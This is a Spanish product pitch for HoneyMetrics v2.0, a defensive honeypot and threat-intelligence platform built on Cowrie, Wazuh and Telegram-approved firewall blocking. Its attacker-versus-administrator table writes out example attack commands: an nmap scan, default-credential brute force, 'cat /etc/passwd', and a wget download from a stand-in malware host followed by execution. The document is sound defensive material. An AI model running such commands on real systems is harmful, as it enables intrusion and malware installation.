

# Pitch de Producto y Arquitectura de Valor — HoneyMetrics v2.0

> **Inteligencia de Amenazas Perimetral, Cero Falsos Positivos y Mitigación Human-in-the-Loop**

> **Ver también:**
> - [manual-tecnico.md → Sección 3: Flujos Críticos de Negocio](./manual-tecnico.md#3-flujos-críticos-de-negocio-y-seguridad-diagramas-de-secuencia) — Arquitectura de secuencia para ingesta OpenSearch, correlación CTI y tokens HMAC de Telegram.
> - [manual-usuario.md → Sección 5: Guía por Rol](./manual-usuario.md#5-guía-por-rol) — Procedimientos operacionales para Administradores, Analistas de datos, Consultores y Directivos de T.I.
> - [guia-despliegue.md → Sección 1: Topología de Red Distribuida](./guia-despliegue.md#1-topología-de-red-distribuida) — Despliegue de sensores Cowrie y Dionaea en hardware Orange Pi 5 y DMZ.
> - [diccionario-datos.md → Sección 3: Módulo 1 Seguridad y RBAC](./diccionario-datos.md#3-módulo-1--seguridad-autenticación-y-control-de-acceso) — Esquema relacional de tablas `threat_ips`, `threat_ips_vault` y control RBAC.

---

## Índice

- [1. Tabla de Acceso Rápido por Perfil de Lector](#1-tabla-de-acceso-rápido-por-perfil-de-lector)
- [2. El Problema — Fatiga de Alertas (SOC Tradicional vs Honeypots)](#2-el-problema--fatiga-de-alertas-soc-tradicional-vs-honeypots)
  - [2.1 La Crisis del Ruido Operativo y el MTTD](#21-la-crisis-del-ruido-operativo-y-el-mttd)
  - [2.2 Comparativa Estructural: Detección Tradicional vs Engaño Activo](#22-comparativa-estructural-detección-tradicional-vs-engaño-activo)
- [3. La Solución — Diagrama Mermaid Flowchart del Flujo Completo](#3-la-solución--diagrama-mermaid-flowchart-del-flujo-completo)
  - [3.1 Ingesta Perimetral, Correlación CTI y Orquestación HITL](#31-ingesta-perimetral-correlación-cti-y-orquestación-hitl)
  - [3.2 Diagrama Mermaid Flowchart del Flujo Integral](#32-diagrama-mermaid-flowchart-del-flujo-integral)
- [4. El Momento Show — Qué ve el Atacante vs Qué ve el Administrador](#4-el-momento-show--qué-ve-el-atacante-vs-qué-ve-el-administrador)
  - [4.1 Protocolo de la Prueba en Vivo en el Stand](#41-protocolo-de-la-prueba-en-vivo-en-el-stand)
  - [4.2 Matriz Comparativa: Qué ve el Atacante vs Qué ve el Administrador](#42-matriz-comparativa-qué-ve-el-atacante-vs-qué-ve-el-administrador)
- [5. Modelo de Negocio e Impacto — On-Premise vs SIEM Comercial](#5-modelo-de-negocio-e-impacto--on-premise-vs-siem-comercial)
  - [5.1 Comparativa Económica y Operacional: On-Premise vs SIEM Comercial](#51-comparativa-económica-y-operacional-on-premise-vs-siem-comercial)
  - [5.2 Articulación con ODS 9 y Modelo Translocal MEDIT](#52-articulación-con-ods-9-y-modelo-translocal-medit)

---

## 1. Tabla de Acceso Rápido por Perfil de Lector

HoneyMetrics v2.0 unifica la recolección de ciberinteligencia, la contención perimetral y la analítica visual en una arquitectura desacoplada orientada a servicios. Para optimizar la consulta técnica y estratégica de esta documentación, la siguiente matriz orienta a cada integrante de la organización hacia los componentes y manuales pertinentes según sus responsabilidades operacionales.

| Perfil Organizacional | Necesidades Operativas y Objetivos de Negocio | Capacidades Centrales en HoneyMetrics v2.0 | Guía Canónica y Sección Recomendada |
| :--- | :--- | :--- | :--- |
| **Directivo de T.I. / CISO** | Monitoreo del retorno de inversión (ROI), reducción de costos de licenciamiento, evaluación de KPIs de riesgo institucional y cumplimiento de soberanía de datos. | Vista gerencial consolidada en Dashboard, métricas de severidad global, reducción del MTTD a minutos y cero costos de suscripción SaaS por ingesta de telemetría. | 📄 [manual-usuario.md → Sección 5.4: Directivo de T.I.](./manual-usuario.md#54-rol-directivo-de-ti) |
| **Administrador de Seguridad / SecOps** | Aprovisionamiento de identidades, enrolamiento de doble factor (TOTP), autorización de bloqueos perimetrales y gobernanza del cortafuegos. | Gestión RBAC estricta, canal de notificación instantánea en Telegram con botones interactivos HITL y resguardo forense en bóveda inmutable. | 📄 [manual-tecnico.md → Sección 4: Control de Acceso RBAC](./manual-tecnico.md#4-control-de-acceso-basado-en-roles-rbac) |
| **Consultor de Ciberseguridad / Red Teamer** | Caracterización de tácticas adversarias (TTPs de MITRE ATT&CK), emulación de ataques, auditoría de denegación perimetral y administración de listas de bloqueo. | Análisis de interacción en honeypots Cowrie y Dionaea, trazabilidad de credenciales capturadas, inspección de payloads y control de la Blacklist activa. | 📄 [manual-tecnico.md → Sección 3.2: Detección y CTI](./manual-tecnico.md#32-flujo-2-detección-correlación-cti-y-bloqueo-perimetral-wazuh--fastapi--telegram--firewall) |
| **Analista de Datos / CTI Tier 1-2** | Filtrado forense de indicadores de compromiso (IOCs), enriquecimiento geográfico de direcciones IP hostiles y generación de reportes ejecutivos. | Consultas sobre clúster Wazuh OpenSearch, filtrado dinámico por criticidad, renderizado cliente de reportes PDF vectoriales y streaming en JSONL. | 📄 [manual-usuario.md → Sección 5.2: Analista de datos](./manual-usuario.md#52-rol-analista-de-datos) |
| **Ingeniero DevOps / Auditor Forense** | Despliegue contenerizado en alta disponibilidad, resiliencia ante cortes del SIEM, integridad de registros de auditoría y hardening criptográfico. | Orquestación mediante Docker Compose, aislamiento de red por subredes Docker, degradación elegante con fallback a SQLite y hashing SHA-256 inmutable. | 📄 [guia-despliegue.md → Sección 1: Topología de Red](./guia-despliegue.md#1-topología-de-red-distribuida) |

!!! note "⚡ El Por Qué Técnico — Especialización por Rol (RBAC)"
    La dispersión de herramientas genera fricción y errores de configuración en incidentes de alta severidad. Al delimitar la interfaz mediante `RoleEnum` y vistas especializadas en React, HoneyMetrics garantiza que cada operador acceda exclusivamente a la información y a los controles que su nivel de autorización exige, mitigando el riesgo de mutaciones accidentales en producción.

---

## 2. El Problema — Fatiga de Alertas (SOC Tradicional vs Honeypots)

### 2.1 La Crisis del Ruido Operativo y el MTTD

Los Centros de Operaciones de Seguridad (SOC) convencionales sufren una saturación crítica denominada fatiga de alertas (*Alert Fatigue*). En una infraestructura estándar, las soluciones perimetrales tradicionales (firewalls de inspección de estado, sistemas de detección de intrusos IDS/IPS basados en firmas genéricas y herramientas SIEM corporativas) generan decenas de miles de eventos diarios. De este volumen masivo, entre el **95% y el 99% corresponde a falsos positivos**, tráfico inofensivo de escaneo rutinario o ruido de fondo de internet.

El efecto operativo de esta avalancha es devastador: los operadores de seguridad se desensibilizan ante las notificaciones continuas, configurando reglas de exclusión permisivas o ignorando tableros de control saturados de alertas rojas. Esta condición degrada la capacidad de respuesta, provocando que el tiempo promedio de detección de una intrusión legítima (**MTTD**, *Mean Time to Detect*) ascienda a **181 días** según reportes globales de la industria. Un sistema de monitoreo que notifica constantemente sobre eventos inocuos equivale, en la práctica, a no contar con ningún mecanismo de supervisión.

!!! warning "⚡ El Por Qué Técnico — La Trampa de la Telemetría Masiva"
    El licenciamiento tradicional de los SIEM comerciales incentiva la ingesta indiscriminada de eventos, penalizando el presupuesto institucional por cada gigabyte transferido. Sin embargo, mayor volumen de datos no equivale a mayor visibilidad defensiva: la correlación sobre fuentes ruidosas consume tiempo de cómputo y horas de analistas sin elevar la fidelidad de la señal de amenaza.

### 2.2 Comparativa Estructural: Detección Tradicional vs Engaño Activo

HoneyMetrics v2.0 invierte por completo el enfoque tradicional: en lugar de buscar anomalías entre millones de transacciones legítimas del tráfico de producción, despliega señuelos (*Honeypots*) en zonas de red estratégicas. Dado que estos servidores trampa no alojan servicios corporativos legítimos, **cualquier interacción entrante es, por definición, maliciosa o no autorizada**, erradicando de raíz el problema de los falsos positivos.

| Dimensión Operativa | SOC Tradicional (Firewalls, IDS/IPS & SIEM Clásico) | HoneyMetrics v2.0 (Engaño Activo con Honeypots) | Impacto Práctico en la Operación |
| :--- | :--- | :--- | :--- |
| **Tasa de Falsos Positivos** | 95% a 99% de eventos descartados por inocuos o reglas mal afinadas. | 0% en los sensores trampa: ninguna entidad autorizada tiene motivos para interactuar con el honeypot. | Eliminación total del tiempo desperdiciado en clasificar alertas irrelevantes. |
| **Relación Señal-Ruido (SNR)** | Extremadamente baja; las amenazas reales quedan ocultas entre peticiones válidas. | Señal pura y de alta fidelidad: cada conexión registrada representa una sonda hostil o un atacante activo. | Enfoque inmediato de los analistas en incidentes reales con intencionalidad comprobada. |
| **Certeza de Intencionalidad** | Ambigua: requiere correlaciones complejas para discernir fallos de usuario de ataques deliberados. | Determinista: el atacante descubrió y atacó un puerto deliberadamente señuelo en el perímetro. | Calificación inmediata de la severidad del incidente sin ambigüedades forenses. |
| **Sobrecarga Cognitiva (Fatiga)** | Muy alta; analistas exhaustos por validar cientos de tickets falsos por jornada laboral. | Prácticamente nula; el sistema despacha únicamente notificaciones sobre eventos confirmados. | Retención de talento en el SOC y prevención de errores humanos por agotamiento. |
| **Tiempo Medio de Detección (MTTD)** | 181+ días promedio de permanencia del atacante en red antes de ser descubierto. | Inmediato (segundos a minutos): la alerta se activa con el primer paquete que toca el señuelo. | Contención temprana antes de que el adversario logre movimiento lateral hacia producción. |
| **Dependencia de Firmas Previas** | Elevada; requiere actualización constante de reglas para identificar patrones ya documentados. | Agnóstica a firmas: detecta el comportamiento intrusivo directo sin importar la novedad del exploit. | Cobertura efectiva contra tácticas de día cero dirigidas a servicios expuestos. |
| **Costo por Volumen de Datos** | Exponencial: tarifas calculadas por gigabytes ingeridos por día en nubes propietarias. | Lineal y controlado: solo se ingesta y almacena la telemetría de interacción del engaño activo. | Ahorro presupuestal masivo para pequeñas y medianas organizaciones locales. |
| **Inteligencia Accionable (TTPs)** | Fragmentada; difícil correlacionar qué comandos ejecutó exactamente el atacante. | Completa: captura de keystrokes, sesiones interactivas, contraseñas probadas y binarios descargados. | Generación de indicadores de compromiso (IOCs) locales y contextualizados para la región. |

---

## 3. La Solución — Diagrama Mermaid Flowchart del Flujo Completo

### 3.1 Ingesta Perimetral, Correlación CTI y Orquestación HITL

La arquitectura de HoneyMetrics v2.0 articula un ecosistema coordinado de cinco capas especializadas: sensores perimetrales de media interacción, ingesta centralizada en clúster SIEM, backend de ciberinteligencia, canal de aprobación Human-in-the-Loop (HITL) y consola de analítica visual:

1. **Sensores de Engaño Perimetral (Orange Pi 5 en DMZ):** Desplegados en hardware dedicado de bajo consumo. **Cowrie** emula entornos interactivos SSH/Telnet registrando credenciales probadas y comandos ejecutados; **Dionaea** emula servicios vulnerables SMB, HTTP y FTP capturando binarios maliciosos y exploits.
2. **Ingesta y Normalización SIEM (Wazuh & OpenSearch):** Un agente Wazuh recolecta los eventos en tiempo real desde los archivos JSON locales de los honeypots y los transfiere cifrados vía TLS al indexador OpenSearch (puerto 9200) bajo los índices `wazuh-alerts-*` y `wazuh-archives-*`.
3. **Capa de Negocio y Correlación CTI (FastAPI):** El servicio `ThreatService` procesa los eventos mediante reglas heurísticas deterministas (frecuencia de conexión, diversidad de puertos y severidad de comandos), consolidando registros en la tabla `threat_ips` de PostgreSQL.
4. **Aprobación Human-in-the-Loop (Telegram Bot):** Al superar el umbral de riesgo, el backend despacha una notificación push a Telegram firmada con HMAC-SHA256. El Administrador valida la acción con botones interactivos, evitando falsos bloqueos sobre infraestructura compartida.
5. **Bloqueo y Bóveda Forense:** Si el Administrador autoriza la mitigación, el servicio ejecuta la regla perimetral en el firewall (iptables / RouterOS API) y archiva la evidencia con marca temporal en `threat_ips_vault` para garantizar no-repudio.

!!! note "⚡ El Por Qué Técnico — Mitigación Human-in-the-Loop (HITL)"
    Los mecanismos de bloqueo 100% automatizados representan un vector severo de auto-denegación de servicio (*Self-Inflicted DoS*). Si un adversario falsifica paquetes IP (*IP Spoofing*) utilizando como origen la dirección de un DNS institucional o de una pasarela de pago, un cortafuegos automatizado bloquearía la infraestructura legítima. El flujo HITL de HoneyMetrics combina la velocidad de la telemetría automatizada con el discernimiento del criterio humano.

### 3.2 Diagrama Mermaid Flowchart del Flujo Integral

---

## 4. El Momento Show — Qué ve el Atacante vs Qué ve el Administrador

### 4.1 Protocolo de la Prueba en Vivo en el Stand

Para evidenciar la inmediatez y eficacia de HoneyMetrics v2.0 durante sustentaciones de grado o ferias tecnológicas, se ejecuta una dinámica de intrusión interactiva en tiempo real:

1. **Ingreso y Selección de Vector:** El evaluador o visitante escanea un código QR exhibido en el stand, accediendo a una terminal web o conectando su dispositivo a una red de pruebas abierta. Desde allí, selecciona un vector de ataque: fuerza bruta SSH con diccionario, escaneo de vulnerabilidades web o inyección de comandos.
2. **Interacción con el Señuelo:** El atacante interactúa creyendo haber penetrado un servidor de producción vulnerable. El honeypot simula una consola interactiva, responde comandos de reconocimiento y emite respuestas creíbles.
3. **Detección y Notificación en Segundos:** En la pantalla principal del stand, el panel de HoneyMetrics proyecta la geolocalización de la IP atacante, los comandos tecleados en vivo y el cálculo de criticidad. Simultáneamente, el teléfono móvil del Administrador vibra recibiendo la notificación interactiva de Telegram.
4. **Bloqueo y Desconexión Inmediata:** El Administrador presiona el botón de confirmación en Telegram. De forma instantánea, la sesión del atacante se interrumpe con el mensaje `Connection closed by remote host`. Cualquier intento subsecuente de reconexión es descartado a nivel de kernel por el firewall perimetral.
5. **Recompensa Simbólica:** Al finalizar el ejercicio, se invita al evaluador a reclamar un dulce en la mesa por haber participado activamente en la validación defensiva del sistema.

### 4.2 Matriz Comparativa: Qué ve el Atacante vs Qué ve el Administrador

| Fase de Intrusión (MITRE ATT&CK) | Vector Ejecutado por el Atacante | Qué ve el Atacante (Señuelo / Terminal Falsa) | Qué ve el Administrador (Dashboard CTI & Telegram) | Mecanismo Interno Activado en HoneyMetrics |
| :--- | :--- | :--- | :--- | :--- |
| **Reconocimiento (TA0043)** | Escaneo TCP SYN con Nmap (`nmap -sS -p 22,80,445`). | Puertos reportados como `OPEN`, banners simulados de OpenSSH 8.4 y Apache 2.4. | Evento en vivo en Wazuh: detección de barrido de puertos con IP de origen catalogada con criticidad Media. | Agente Wazuh decodifica conexiones simultáneas e indexa alerta en OpenSearch. |
| **Acceso Inicial (TA0001)** | Ataque de fuerza bruta SSH probando combinaciones comunes (`root:123456`). | El servicio Cowrie acepta la contraseña fingiendo acceso exitoso: `Welcome to Ubuntu 22.04 LTS`. | Alerta roja en Dashboard: intentos fallidos acumulados, extracción de credenciales probadas e IP marcada como hostil. | Cowrie extrae usuario/clave a `cowrie.json`, elevando el puntaje heurístico CTI. |
| **Ejecución (TA0002)** | Comandos de inspección: `uname -a`, `id`, `cat /etc/passwd`, `ip addr`. | Salida creíble generada por el entorno emulado simulando permisos de `root`. | Visualización en vivo de keystrokes en el Threat Center, con correlación de comandos sospechosos. | Telemetría de sesión interactiva capturada caracterizando las tácticas del atacante. |
| **Descarga de Malware (TA0011)** | Intento de descarga de payload: `wget http://malware.org/x.sh`. | Descarga simulada completada exitosamente: `100% [======>] 1.2M  Saved to 'x.sh'`. | Hash SHA-256 del archivo calculado automáticamente y asociado al perfil del IOC en el Dashboard. | Dionaea/Cowrie retiene el binario en cuarentena para análisis forense offline. |
| **Decisión HITL (TA0040)** | Atacante intenta ejecutar el payload: `chmod +x x.sh && ./x.sh`. | La consola demora la respuesta simulando consumo de recursos en background. | Push en Telegram del Administrador: `⚠️ AMENAZA CRÍTICA DETECTADA: IP 192.168.1.150` con botones de acción. | `TelegramService` despacha webhook seguro con token criptográfico HMAC. |
| **Contención (Mitigación)** | Intento de reconexión o envío de un nuevo comando de consola. | Bloqueo súbito: `ssh: connect to host port 22: Connection timed out / Host is down`. | Notificación de bloqueo exitoso en Telegram; actualización del badge a `Blacklisted` en Dashboard. | Regla perimetral insertada en el firewall perimetral y respaldo inmutable en `threat_ips_vault`. |

!!! tip "⚡ El Por Qué Técnico — Emulación de Media Interacción con Cowrie"
    Un honeypot de alta interacción requeriría una máquina virtual completa con riesgo de escape de hipervisor; un honeypot de baja interacción solo respondería paquetes SYN sin permitir interacción. Cowrie implementa un punto medio ideal: una shell Python que retiene al adversario, captura su metodología completa y aísla completamente el sistema operativo base del host.

---

## 5. Modelo de Negocio e Impacto — On-Premise vs SIEM Comercial

### 5.1 Comparativa Económica y Operacional: On-Premise vs SIEM Comercial

Las pequeñas y medianas empresas (PYMES), alcaldías municipales e instituciones educativas de la Sabana de Occidente enfrentan restricciones presupuestales severas que les impiden contratar plataformas comerciales de seguridad como Splunk Enterprise, Datadog Security o Microsoft Sentinel. Dichas soluciones imponen modelos de suscripción basados en el volumen de telemetría procesada por día, volviendo impredecibles los costos operativos ante picos de tráfico.

HoneyMetrics v2.0 propone un paradigma de **soberanía tecnológica y arquitectura On-Premise**, combinando componentes de código abierto probados en la industria con una capa propia de orquestación defensiva:

| Criterio Estratégico y Financiero | SIEM Comercial Propietario (Cloud / SaaS) | HoneyMetrics v2.0 (Arquitectura On-Premise Abierta) | Ventaja Competitiva Organizacional |
| :--- | :--- | :--- | :--- |
| **Costo de Licenciamiento Base** | Tarifas recurrentes de $15,000 a $60,000+ USD anuales por suscripción institucional. | $0 USD: componentes de código abierto bajo licencias permisivas sin costos de licencia recurrente. | Eliminación de barreras financieras de entrada para organizaciones regionales. |
| **Tarificación por Volumen de Logs** | Cobro variable por GB/día ingerido; sobrecostos impredecibles ante ataques DDoS o escaneos masivos. | Costo marginal cero: el sistema procesa toda la telemetría soportada por el hardware local. | Presupuesto operativo predecible y blindado contra fluctuaciones de volumen. |
| **Soberanía y Residencia de Datos** | Telemetría exportada a centros de datos internacionales de terceros, generando fricción regulatoria. | Control On-Premise total: las bases de datos PostgreSQL y OpenSearch residen en la infraestructura local. | Cumplimiento pleno de la normativa de protección de datos personales y confidencialidad. |
| **Operabilidad en Redes Aisladas** | Inoperable sin salida continua a internet; pérdida de monitoreo durante caídas de enlace troncal. | Operación autónoma en LAN y DMZ; capaz de monitorear redes aisladas (*air-gapped*) sin dependencias externas. | Resiliencia operativa continua frente a contingencias de telecomunicaciones. |
| **Flexibilidad y Adaptabilidad** | Caja negra (*black-box*); modificaciones sujetas al roadmap del fabricante y extensiones costosas. | Código transparente y modular en FastAPI y React; ampliable a necesidades específicas de la organización. | Autonomía técnica completa para extender funcionalidades y auditar el código fuente. |
| **Orquestación y Mitigación HITL** | Módulos SOAR avanzados tarificados como add-ons de costo prohibitivo para PYMES. | Integración nativa con Telegram Bot mediante tokens HMAC de un solo uso sin costos adicionales. | Capacidad de respuesta perimetral avanzada al alcance de cualquier equipo técnico. |
| **Requerimientos de Infraestructura** | Appliances propietarios o instancias en la nube con requerimientos masivos de memoria RAM. | Sensores perimetrales desplegables en hardware de bajo costo y consumo (SBC Orange Pi 5). | Reducción dramática del consumo energético y de los costos de capital inicial (CAPEX). |
| **Tiempo de Despliegue Inicial** | Semanas o meses de consultoría especializada para integración de agentes y reglas complejas. | Despliegue en menos de una hora mediante Docker Compose con perfiles de configuración automatizados. | Reducción radical del tiempo de valor (*Time-to-Value*) operacional. |

### 5.2 Articulación con ODS 9 y Modelo Translocal MEDIT

El desarrollo de HoneyMetrics v2.0 trasciende el ejercicio de ingeniería al alinearse con compromisos estratégicos globales y regionales:

- **Objetivo de Desarrollo Sostenible 9 (ODS 9 — Industria, Innovación e Infraestructura):** La meta 9.1 demanda infraestructuras fiables, sostenibles y resilientes. Al democratizar el acceso a la ciberinteligencia defensiva sin ataduras financieras privativas, HoneyMetrics fortalece la ciberresiliencia de las infraestructuras de tecnología de la información de pequeñas instituciones que tradicionalmente carecen de protección avanzada.
- **Modelo Educativo Digital Translocal (MEDIT) — Universidad de Cundinamarca:** El proyecto materializa la visión del MEDIT al transferir innovación y conocimiento aplicado directamente sobre el contexto socio-empresarial de la Sabana de Occidente (Facatativá, Madrid, Mosquera, Funza). Al proporcionar herramientas de engaño activo soberanas, se resguarda el tejido productivo regional frente a incidentes de ciberseguridad, consolidando la vinculación transformadora entre la universidad y su entorno.
